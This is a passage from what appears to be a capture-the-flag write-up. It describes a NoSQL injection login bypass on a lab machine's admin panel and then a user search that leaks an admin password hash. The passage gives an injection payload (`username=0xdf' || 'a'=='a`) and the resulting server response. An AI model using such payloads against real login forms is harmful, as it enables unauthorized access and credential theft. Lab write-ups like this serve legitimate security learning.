 Results in:

```

HTTP/1.1 302 Found
Server: nginx/1.23.1
Date: Wed, 11 Jan 2023 23:00:49 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 56
Connection: close
Location: /admin
Vary: Accept
Set-Cookie: connect.sid=s%3AReILweHHX4bMBcDk4TiDrE3ATGvqbBnT.1x8gE%2Fp%2FM79FzOS6DQvwdmngxdyyyvT637dxIsReuZQ; Path=/; HttpOnly

<p>Found. Redirecting to <a href="/admin">/admin</a></p>

```

That’s a cookie set and a redirect to `/admin`! That’s success.

Interestingly, this only works if the username exists. If I change the payload to:

```

username=0xdf' || 'a'=='a&password=admin

```

It redirects with “Wrong Credentials”.

I’ll dig into this and another NoSQL vulnerability in [Beyond Root](#beyond-root---nosql-injection).

### Access to Mattermost

#### Enumeration

Either by grabbing the cookie from Repeater or just logging in from Firefox with the NoSQL payload, I get into the admin panel:

![image-20230111180655873](https://0xdfimages.gitlab.io/img/image-20230111180655873.png)

That page looks relatively static. The “Search for users” button leads to `/admin/search-users`:

![image-20230111180733256](https://0xdfimages.gitlab.io/img/image-20230111180733256.png)

If I search for “0xdf”, it finds nothing. If I search for “admin”, it offers a download:

![image-20230111181009832](https://0xdfimages.gitlab.io/img/image-20230111181009832.png)

It opens `export-search.json`, which contains admin’s id, username, and password:

![image-20230111181054611](https://0xdfimages.gitlab.io/img/image-20230111181054611.png)

The hash looks like MD5, but doesn’t crack with `rockyou.txt`.
